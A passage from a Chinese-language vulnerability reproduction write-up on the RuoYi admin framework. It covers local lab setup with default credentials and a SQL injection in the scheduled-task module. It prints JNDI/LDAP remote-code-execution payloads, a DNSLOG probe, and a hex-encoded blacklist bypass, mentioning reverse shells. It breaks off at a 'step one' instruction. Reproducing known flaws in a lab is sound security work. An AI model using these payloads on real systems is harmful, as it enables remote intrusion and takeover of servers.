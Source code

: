将ruoyi-admin下的application-druid.yml文件配置数据库账号密码  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamrVia6QXspzf6J77sfJNthAA7aV87MEia04OFLJ9c8M4yxqkPG2dqmjfg/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
启动成功  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraameZcS2qCIiaVljBZGAySjme3PsEiaA7n3AOsib56rrqiahGEckXQrrbiblTg/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
若依漏洞复现环境搭建成功  
```
adminadmin123
```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamibT2ib43qlarOLTrMib6f4iaohJSWnfcvObsubDHIJfPqhfss6JuCQ9oaQ/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
## 0x05 漏洞复现  
  
系统监控下定时任务中存在SQL注入漏洞  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamsGxmrfjWnXkPOywjjanhFZaDWPZ2SfMLScAe9LnZY9XoKv1WXGBicZQ/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
在补丁中，使用了黑名单和白名单的策略。  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamnlanNhibooC04wYQDhsIGnNPfGniamK5QTulurQfqAP58dcJlES7mUKA/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
SQL注入漏洞点  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraambGiaiciapVsp0sfECwhfbHeiaRE2ZSPojNIgswok31ZM8asGicrgicCc25Yw/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
开始复现  
  
RCE payload  
  
JNDI  
```
javax.naming.InitialContext.lookup('ldap://127.0.0.1:1389/deserialJackson')
```  
  
payload中可以执行反弹shell、漏洞探测、命令执行功能  
  
DNSLOG  
```
javax.naming.InitialContext.lookup('ldap://dnslog')
```  
  
目标字符串不允许'ldap(s)'调用且不能存在括号，因此我们使用SQL注入加十六进制编码来进行绕过修改  
  
https://www.bejson.com/convert/ox2str/  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamRmXRVsek3iaFXWlULpV2EHfmd4YeZBRZtHlF3ibSMAUk719TicKaQZeow/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
```
6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f3132372e302e302e313a313338392f646573657269616c4a61636b736f6e2729
```  
  
第一步：运行此命令  
  